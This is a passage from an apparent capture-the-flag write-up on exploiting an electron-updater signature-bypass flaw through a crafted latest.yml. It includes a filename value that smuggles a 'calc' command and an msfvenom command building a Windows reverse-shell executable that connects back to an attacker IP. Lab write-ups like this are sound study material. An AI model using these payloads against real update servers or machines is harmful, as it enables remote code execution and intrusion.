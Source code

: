 The same links come up with the terms identified in the windows analysis.

#### Exploit Details

[This post](https://blog.doyensec.com/2020/02/24/electron-updater-update-
signature-bypass.html) gives a good breakdown of the vulnerability and
exploit, as well as some background:

> During a software update, the application will request a file named
> latest.yml from the update server, which contains the definition of the new
> release - including the binary filename and hashes.

The idea is that I can bypass any signature checks on updates by breaking the
script that manages that, specifically by putting a `'` in the filename. The
example file they give is:

    
    
    version: 1.2.3
    files:
      - url: v’ulnerable-app-setup-1.2.3.exe
      sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
      size: 44653912
    path: v'ulnerable-app-1.2.3.exe
    sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
    releaseDate: '2019-11-20T11:17:02.627Z'
    

There’s also a command injection vuln that looks like:

    
    
    version: 1.2.3
    files:
      - url: v';calc;'ulnerable-app-setup-1.2.3.exe
      sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZ[...]tkYPEvMxDWgNkb8tPCNZLTbKWcDEOJzfA==
      size: 44653912
    path: v';calc;'ulnerable-app-1.2.3.exe
    sha512: GIh9UnKyCaPQ7ccX0MDL10UxPAAZr1[...]ZrR5X1kb8tPCNZLTbKWcDEOJzfA==
    releaseDate: '2019-11-20T11:17:02.627Z'
    

### Shell

I’ll show two ways to do this, both very similar, but first by uploading the
payload, and then serving it over HTTP.

#### Local

This tracks with how the article shows the update and the `latest.yml`.

I’ll build an executable that will provide a reverse shell using `msfvenom`:

    
    
    oxdf@parrot$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -f exe -o rev.exe
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of exe file: 7168 bytes
    Saved as: rev.exe
    